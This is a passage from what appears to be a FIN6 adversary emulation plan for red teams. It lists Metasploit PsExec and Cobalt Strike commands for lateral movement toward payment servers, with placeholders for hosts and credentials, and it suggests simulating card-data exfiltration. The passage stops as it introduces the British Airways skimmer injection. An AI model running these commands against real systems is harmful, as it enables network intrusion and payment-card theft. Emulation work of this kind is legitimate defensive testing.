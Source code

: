 For organizations that are not in favor of injecting scripts into operational payment servers, we recommend the following.  Assess your ability to move laterally within your network from a "compromised" host to the payment server.  Assess your ability to gain unauthorized access and write to the server.  Simulate exfiltration by manually issuing an HTTP POST with simulated credit card information to your exfiltration server.

### Procedures

#### 6.1 Lateral Movement Using C2 Frameworks<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again/)</sup>

##### Metasploit PsExec - PowerShell ([T1059.001](https://attack.mitre.org/techniques/T1059/001/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
msf> use exploit/windows/smb/psexec
msf exploit(psexec) > set Target PowerShell
msf exploit(psexec) > set RHost #{POS system}
msf exploit(psexec) > set SMBDomain #{Domain}
msf exploit(psexec) > set SMBPass #{Password}
msf exploit(psexec) > set SMBUser #{User}
msf exploit(psexec) > exploit -j
```

##### CobaltStrike PowerShell PsExec ([T1059.001](https://attack.mitre.org/techniques/T1059/001), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
beacon> jump psexec_psh #{Web Server}
```

##### CobaltStrike Remote Exec ([T1059.001](https://attack.mitre.org/techniques/T1059/001), [T1047](https://attack.mitre.org/techniques/T1047))

```sh
remote-exec wmi #{Web Server}
```

#### 6.2 Injection/Modification

FIN6 is suspected of compromising the web server responsible for hosting British Airways and modifying a JavaScript library to include the customized script detailed below.

##### British Airways<sup>[14](https://riskiq.com/blog/labs/magecart-british-airways-breach/)</sup>
